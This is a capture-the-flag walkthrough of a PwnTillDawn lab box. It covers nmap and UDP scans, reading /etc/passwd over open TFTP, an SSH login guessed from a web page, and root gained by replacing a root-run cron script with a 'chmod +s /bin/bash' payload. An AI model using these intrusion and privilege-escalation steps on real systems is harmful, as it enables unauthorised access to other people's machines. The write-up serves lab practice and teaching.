 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/47596ddd-f8b4-468b-93b5-ed69d6105ae9)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Wed Jun  7 09:02:34 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80 -Pn 10.150.150.137
Nmap scan report for 10.150.150.137
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 14eedfe02f1cdcb63b3cec6a61ddc3e0 (RSA)
|   256 5deec83c1a9a3358de9956b436318c0d (ECDSA)
|_  256 4ce7e527651a90bbd462c936acdfaee4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  7 09:02:50 2023 -- 1 IP address (1 host up) scanned in 15.36 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d65a3b93-5d5d-4f79-b013-4518b626c0f0)

a web server was running on port 80, opening it on a browser we got to see a dog pic named `charlie`. checking the page source you will get `FLAG3`. tried fuzzing for hours and got no directory. let's scan for udp ports.

## Enumerating UDP 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/10.150.150.137]
└─$ sudo nmap -sV -sC -sU -p 69 10.150.150.137
[sudo] password for n16hth4wk: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-07 19:39 WAT
Nmap scan report for 10.150.150.137
Host is up (0.14s latency).

PORT   STATE         SERVICE VERSION
69/udp open|filtered tftp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.87 seconds
```
there's a UDP port open and it is running `tftp` service.
Trivial File Transfer Protocol is a simple lockstep File Transfer Protocol which allows a client to get a file from or put a file onto a remote host. One of its primary uses is in the early stages of nodes booting from a local area network.
let's enumerate this service.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/10.150.150.137]
└─$ tftp 10.150.150.137
tftp> get /etc/passwd
tftp>
```
cool we are able to get th content of `/etc/passwd` file. let's check the file out.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/91e55cfa-3a8d-42ad-b33b-30004270fac3)

we can see a user `michael` remember we got a name on the web page `charlie`, let's try login ssh using `michael:charlie`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bb927192-30b6-4372-bad1-932d39737707)

Bankai!!! we are in.


## Privilege Escalation 

```
michael@shelter:~$ ls -al
total 56
drwxr-xr-x 6 michael michael 4096 Jun  7 19:24 .
drwxr-xr-x 3 root    root    4096 Dec 21  2020 ..
-rw-r--r-- 1 root    root     297 Dec 21  2020 backup.py
-rw-r--r-- 1 root    root     230 Jun  7 19:24 backup.zip
-rw------- 1 michael michael    5 Apr 28  2021 .bash_history
-rw-r--r-- 1 michael michael  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 michael michael 3771 Feb 25  2020 .bashrc
drwx------ 2 michael michael 4096 Dec 21  2020 .cache
drwxrwxr-x 2 michael michael 4096 Jun  7 19:24 important_files
drwxrwxr-x 3 michael michael 4096 Dec 21  2020 .local
-rw-r--r-- 1 michael michael  807 Feb 25  2020 .profile
-rw-rw-r-- 1 michael michael   66 Dec 22  2020 .selected_editor
drwx------ 2 michael michael 4096 Dec 21  2020 .ssh
-rw-rw-r-- 1 michael michael   41 Apr 21  2022 thisisFLAG1.txt
michael@shelter:~$ cat backup.py 
import os
import time
os.system("/usr/bin/zip -r /home/michael/backup.zip /home/michael/important_files/*")
os.system("/usr/bin/rm -r /home/michael/important_files/*")
os.system("touch /home/michael/important_files/spaceholder")
time.sleep(55)
os.system("/usr/bin/rm -r /home/michael/backup.zip")
michael@shelter:~$ 
```
found a `backup.py` file in michael's dir, checking the content, we can see it is a cronjob. let's abuse this 

```
michael@shelter:~$ mv backup.py /tmp/ 
michael@shelter:~$ nano backup.py
michael@shelter:~$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
michael@shelter:~$ cat backup.py
import os

os.system("chmod +s /bin/bash")
michael@shelter:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
michael@shelter:~$
```
moved the backup.py file to `/tmp` and create another `backup.py` file injecting it with malicious code to make suid bin. wait for a min and boom w got suid on `/bin/bash`.

```
michael@shelter:~$ bash -p
bash-5.0# id
uid=1000(michael) gid=1000(michael) euid=0(root) egid=0(root) groups=0(root),1000(michael)
bash-5.0# 
```
running command `bash -p` got us a root shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5e2bae52-9d2b-4a55-8033-2ab890fae772)

and we are through 😜 fun box innit 
